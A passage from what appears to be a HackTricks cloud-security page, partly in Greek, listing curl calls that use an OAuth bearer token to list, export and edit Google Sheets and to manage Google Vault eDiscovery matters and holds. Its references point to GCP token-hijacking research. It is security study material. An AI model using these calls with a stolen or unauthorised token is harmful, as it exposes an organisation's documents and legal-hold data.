<summary>https://www.googleapis.com/auth/spreadsheets</summary>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** είναι ένα πρόσθετο για το Google Workspace που παρέχει εργαλεία για τη διατήρηση δεδομένων, αναζήτηση και εξαγωγή για τα δεδομένα της οργάνωσής σας που αποθηκεύονται σε υπηρεσίες του Google Workspace όπως το Gmail, το Drive, το Chat και άλλα.

* Ένα **Matter** στο Google Workspace Vault είναι ένα **δοχείο** που οργανώνει και ομαδοποιεί όλες τις πληροφορίες που σχετίζονται με μια συγκεκριμένη υπόθεση, έρευνα ή νομικό ζήτημα. Λειτουργεί ως το κεντρικό σημείο για τη διαχείριση των **Holds**, **Searches** και **Exports** που αφορούν αυτό το συγκεκριμένο ζήτημα.
* Ένα **Hold** στο Google Workspace Vault είναι μια **ενέργεια διατήρησης** που εφαρμόζεται σε συγκεκριμένους χρήστες ή ομάδες για να **αποτραπεί η διαγραφή ή η τροποποίηση** των δεδομένων τους εντός των υπηρεσιών του Google Workspace. Τα Holds διασφαλίζουν ότι οι σχετικές πληροφορίες παραμένουν ανέπαφες και αμετάβλητες για τη διάρκεια μιας νομικής υπόθεσης ή έρευνας.
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
More [API endpoints in the docs](https://developers.google.com/vault/reference/rest).

</details>

## Αναφορές

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)
* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
